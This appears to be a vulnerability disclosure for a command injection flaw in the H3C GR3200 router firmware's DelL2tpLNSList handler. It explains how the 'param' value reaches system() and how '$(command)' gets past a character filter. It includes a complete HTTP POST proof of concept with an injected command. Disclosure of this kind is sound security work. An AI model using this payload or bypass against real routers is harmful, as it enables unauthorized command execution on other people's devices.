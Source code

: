 # H3C GR3200 MiniGR1B0V100R014 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/cn/
- Firmware download address ： https://www.h3c.com/cn/d_202202/1542099_30005_0.htm

### Product Information

Overview of affected versions of H3C GR3200 router：

![image-20220724132311844](img/image-20220724132311844.png)

## Vulnerability details

H3C GR3200 (<=MiniGR1B0V100R014) was found to contain a command insertion vulnerability in DelL2tpLNSList.This vulnerability allows an attacker to execute arbitrary commands through the "param" parameter.

![image-20220724112402312](img/image-20220724112402312.png)

Format the `param` parameter we entered into `V15` through the `snprintf` function, and execute our command through the system function. Because `V10` and `V11` are limited to 8 bytes, we can fill `V10` with 8 bytes so that when `%s` in the `snprintf` function is formatted, `V10` and `V11` will be connected actively.

![image-20220724132824754](img/image-20220724132824754.png)

Although the `sub_100695A4` function filters some dangerous characters, we can bypass them with `$(command)`.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following `POC` attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.124.1:80/maintain_basic.asp
Cookie: JSESSIONID=04f803a0
Upgrade-Insecure-Requests: 1
Content-Length: 67

CMD=DelL2tpLNSList&GO=vpn_l2tp_session.asp&param=1;$(ps>/ww w/1)	#;
```

![image-20220724133957626](img/image-20220724133957626.png)

The picture above shows the debug log after POC is sent.

![image-20220724133234021](img/image-20220724133234021.png)

The above illustration shows the effect of command execution.

